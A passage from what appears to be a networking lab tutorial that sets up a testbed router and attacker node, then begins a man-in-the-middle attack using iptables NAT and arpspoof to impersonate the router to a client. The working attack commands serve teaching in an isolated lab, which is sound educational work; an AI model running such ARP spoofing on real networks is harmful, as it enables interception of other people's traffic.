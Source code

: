 Also make sure that the router is forwarding traffic, by running

```
sudo sysctl -w net.ipv4.ip_forward=1
```

on the router node.

To make sure this all works as expected, on the router node run

```
sudo tcpdump -i eth1
```

and in the Firefox instance running in NoVNC, visit

http://witestlab.poly.edu

Make sure that the page loads, and make sure you can see exchange in your `tcpdump` window&mdash;this is how you know that traffic for this host is going through the router via the experiment network, and not through the control interface on the client. Once you have verified this, you can stop the `tcpdump` on the router.

### Execute the man-in-the-middle attack

We're now ready to carry out the attack. Open an SSH session to the attacker node.

Set up the attacker to forward traffic:

```
sudo sysctl -w net.ipv4.ip_forward=1
```

and to perform NAT:

```
sudo iptables -A FORWARD -o eth0 -i eth1 -s 192.168.0.0/24 -m conntrack --ctstate NEW -j ACCEPT  
sudo iptables -A FORWARD -m conntrack --ctstate ESTABLISHED,RELATED -j ACCEPT  
sudo iptables -t nat -F POSTROUTING  
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE  
```

Now, we're going to use ARP spoofing to get the client to send traffic through the attacker, instead of directly to the router. On the client node, check the client's ARP table with

```
arp -n -a -i eth1
```

You should see that the client has an entry for the router's IP address (192.168.0.1), with the router's MAC address. (Use `ifconfig eth1` on the router to verify its MAC address.) For example:

```
? (192.168.0.1) at 02:fb:83:fe:12:7e [ether] on eth1
```

Next, on the attacker, run

```
screen sudo arpspoof -i eth1 -t 192.168.0.2 192.168.0.1
```
